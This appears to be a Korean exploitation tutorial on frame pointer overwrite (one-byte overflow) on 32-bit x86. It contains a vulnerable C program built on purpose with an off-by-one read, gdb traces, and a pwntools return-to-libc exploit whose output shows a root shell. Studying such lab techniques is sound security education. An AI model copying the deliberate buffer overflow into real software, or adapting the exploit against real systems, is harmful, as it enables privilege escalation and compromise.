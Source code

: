 ## Concept

Frame Poineter를 1byte 덮어써 코드의 흐름을 변경하는 기법. One-byte Overflow라고도 한다.

#### **Stack Alignment**
x86-64 ABI는 16Byte Stack alignment가 필요하다.  
ABI와 호환되지 않는 환경에서 스택 공간을 제한해서 사용하기 위함. 

**Stack alignment at 4-byte boundary**

```
0x080485c7 <+0>:  push   ebp
0x080485c8 <+1>:  mov    ebp,esp
~
0x080485ea <+35>: leave 
0x080485eb <+36>: ret
``` 

**Stack alignment at 16-byte boundary** 
1. main() 함수가 시작되는 부분에서 이전 함수에서 사용하던 Frame Pointer를 Stack에 저장하기 전에 Stack alignment 수행 
1. main() 함수가 종료되는 부분에서 leave 명령 실행 전, ebp 레지스터에 저장된 주소에 0x4를 뺀 주소 값을 esp 레지스터에 저장 
1. Stack alignment 코드가 적용되면 ret 코드가 실행되기 전에 "lea esp,[ecx-0x4]" 명령에 의해 esp 레지스터가 변경됨 
1. ecx 레지스터의 값은 leave 코드가 실행되기전에 ebp 레지스터를 이용해 값을 저장하기 때문에 esp 레지스터의 값을 변경할 수 있음 

```
0x080485d3 <+0>: lea    ecx,[esp+0x4]
```

esp 레지스터에 저장된 값에 0x4를 더한 주소를 ecx에 저장

```
0x080485d7 <+4>: and    esp,0xfffffff0
```

esp 레지스터에 저장된 값과 0xfffffff0을 AND 연산한 값을 저장(0xffffd59c & 0xfffffff0 = 0xffffd590) 이로 인해 Stack 주소가 16byte 경계에 맞춰짐

```
0x080485da <+7>: push   DWORD PTR [ecx-0x4]
```

stack에 [ecx-0x4]주소에 저장된 값 저장(main() 함수가 종료되고 되돌아갈 Return address)  
ESP 레지스터의 값이 leave 코드에 의해 변경되는 것이 아니라 lea esp,[ecx-0x4] 코드에 의해 변경된다.

## **Proof of Concept**

```c
// Vuln Code
// gcc -m32 -fno-stack-protector -o fpo fpo.c -ldl
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
#include <stdlib.h>
  
void vuln(){
    char buf[50];
    printf("buf[50] address : %p\n",buf);
    void (*printf_addr)() = dlsym(RTLD_NEXT, "printf");
    printf("Printf() address : %p\n",printf_addr);
    read(0, buf, 63);
}
  
void main(int argc, char *argv[]){
    if(argc<2){
        printf("argv error\n");
        exit(0);
    }
    vuln();
}
```

63byte를 입력받으면 ebp의 마지막 1byte가 overflow.

```
gdb-peda$ x/24wx 0xbfa07cfa(&buf)
0xbfa07cfa:	0x41414141	0x42424242	0x43434343	0x44444444
0xbfa07d0a:	0x45454545	0x46464646	0x47474747	0x48484848
```

&buf+4(0xbfa07cfe)의 마지막 byte(0xfe)를 EBP의 마지막 바이트에 삽입.

```
gdb-peda$ x/24x $ebp
0xbfa07d02:	0x43434343	0x44444444	0x45454545	0x46464646
0xbfa07d12:	0x47474747	0x48484848	0x80ecb70a	0x0002b7d2
```

mov ecx,DWORD PTR [ebp-0x4] 명령으로 0xbfa07cfe가 ecx 레지스터에 저장된다.  

```
gdb-peda$ x/24x $ecx-0x4
0x4242423e:	Cannot access memory at address 0x4242423e
```

## **Exploit Code**
```python
# Exploit Code
from pwn import *
p=process(['./fpo','AA'])

tmp = p.recvline().split(' ')[3]
printf = int(p.recvline().split(' ')[3],16)
buf = int(tmp,16)

print('buf    :%s'%hex(buf))
print('printf :%s'%hex(printf))

onebyte = int(tmp[8:11],16)
print('onebyte :%s'%hex(onebyte))

buf += 0x8
onebyte += 0x4

libBase = printf-0x4a670
system = libBase + 0x3bda0
binsh = libBase + 0x15ca0b
exit = libBase + 0x2f9d0

print('libBase :%s'%hex(libBase))
print('system :%s'%hex(system))
print('/bin/sh :%s'%hex(binsh))
print('exit :%s'%hex(exit))

exploit = p32(buf)
exploit += p32(system)
exploit += p32(exit)
exploit += p32(binsh)
exploit += "x90"*(62-len(exploit))
exploit += p32(onebyte)

p.sendline(exploit)

p.interactive()
```

## **Exploit**
```shell
root@bs-virtual-machine:~/fpo# python expliot.py 
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[+] Starting local process './fpo': pid 3107
buf    :0xbfb2019a
printf :0xb7e4b670
onebyte :0x9a
libBase :0xb7e01000
system :0xb7e3cda0
/bin/sh :0xb7f5da0b
exit :0xb7e309d0
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) groups=0(root)
```

**Refereces**  
[https://www.lazenca.net/display/TEC/01.Frame+Pointer+Overwrite%28One-byte+Overflow%29+-+x86](https://www.lazenca.net/display/TEC/01.Frame+Pointer+Overwrite%28One-byte+Overflow%29+-+x86)

